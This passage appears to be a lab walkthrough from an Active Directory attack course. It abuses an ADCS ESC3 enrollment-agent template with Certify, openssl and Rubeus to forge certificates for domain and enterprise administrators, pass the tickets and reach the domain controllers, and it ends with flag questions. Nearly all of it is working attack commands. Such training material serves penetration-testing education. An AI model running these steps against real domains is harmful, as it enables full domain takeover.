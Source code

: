 - Like earlier, save the certificate text to esc3.pem and convert to pfx. Let's keep using SecretPass@123 as the export password:
```
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\esc3.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\esc3-agent.pfx
```
- Now we can use the Enrollment Agent Certificate to request a certificate for DA from the template SmartCardEnrollment-Users:
```
C:\AD\Tools\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:SmartCardEnrollment-Users /onbehalfof:dcorp\administrator /enrollcert:C:\AD\Tools\esc3-agent.pfx /enrollcertpw:SecretPass@123
```
- Once again, save the certificate text to esc3-DA.pem and convert the pem to pfx. Still using SecretPass@123 as the export password:
```
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\esc3-DA.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\esc3-DA.pfx
```
- Use the esc3-DA created above with Rubeus to request a TGT for DA
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:administrator /certificate:C:\AD\Tools\esc3-DA.pfx /password:SecretPass@123 /ptt
```
- Check if we actually have DA privileges now:
```
winrs -r:dcorp-dc cmd /c set username
```
- To escalate to Enterprise Admin, we just need to make changes to request to the SmartCardEnrollmentUsers template and Rubeus. Please note that we are using '/onbehalfof: mcorp\administrator' here:
```
C:\AD\Tools\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:SmartCardEnrollment-Users /onbehalfof:mcorp\administrator /enrollcert:C:\AD\Tools\esc3-agent.pfx /enrollcertpw:SecretPass@123
```
- Convert the pem to esc3-EA.pfx using openssl and use the pfx with Rubeus:
```
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\esc3-EA.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\esc3-EA.pfx

C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:moneycorp.local\administrator /certificate:C:\AD\Tools\esc3-EA.pfx /dc:mcorp-dc.moneycorp.local /password:SecretPass@123 /ptt
```
- Finally, access mcorp-dc!
```
winrs -r:mcorp-dc cmd /c  set username
```
#### Flag - Name of the CA attribute that allows requestor to provide Subject Alternative Names	
```
C:\AD\Tools\Certify.exe find
```
- look into CA section
#### Flag - Name of the group that has enrollment rights on the CA-Integration template	
```
C:\AD\Tools\Certify.exe find
```
